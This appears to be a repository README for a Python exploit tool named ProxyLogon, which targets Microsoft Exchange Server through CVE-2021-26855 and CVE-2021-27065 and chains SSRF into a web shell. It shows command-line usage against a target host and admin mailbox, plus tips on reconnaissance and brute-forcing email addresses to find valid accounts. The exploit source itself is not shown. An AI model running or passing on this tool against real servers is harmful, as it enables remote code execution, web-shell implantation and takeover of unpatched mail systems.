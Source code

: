 # ProxyLogon
ProxyLogon (CVE-2021-26855+CVE-2021-27065) Exchange Server RCE (SSRF->GetWebShell)


# ProxyLogon For Python3
```python
usage:
    python ProxyLogon.py --host=target.com --mail=admin@target.com
    python ProxyLogon.py --host=target.com --mails=./mails.txt
```

#### Tips:
* 1) recon target to find valid email address
* 2) if you do not find any email, use bruteforce target with your email file.
